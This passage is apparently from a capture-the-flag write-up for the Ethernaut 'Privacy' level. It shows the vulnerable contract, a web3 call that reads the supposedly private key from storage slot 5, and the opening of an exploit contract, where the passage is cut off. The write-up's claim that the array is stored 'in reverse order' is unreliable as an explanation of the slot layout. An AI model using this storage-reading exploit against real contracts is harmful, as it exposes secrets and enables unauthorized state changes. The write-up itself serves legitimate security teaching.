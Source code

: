 > ```

<hr>


## 12 Privacy
We need to unlock the contract to complete this level.
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

To unlock the contract we need to call the `unlock` function with `key`.  This challenge is a bit similar to `Valut` challenge. As we can see that the data array is stored in the storage and we can read the storage. But before that we have understand how the storage actually works, I found [this](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/) blog which explains that in a good brief.
So the 3rd element of the bytes array will be stored at 5th slot since the array will be stored in the reverse order. We submit the key from our exploit.

> #### Solution:
> - We need to obtain the data stored at the 5th slot.
> 
> ```js
> await web3.eth.getStorageAt(instance,5);
> /* "0x81391acc1432a12ec8ae3c2524fc5501964e0bb757ec15f6587ecce3d61084c8" */
> ```
> - We submit the key using our exploit contract.
> 
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface privacy {
>     function unlock(bytes16 _key) external;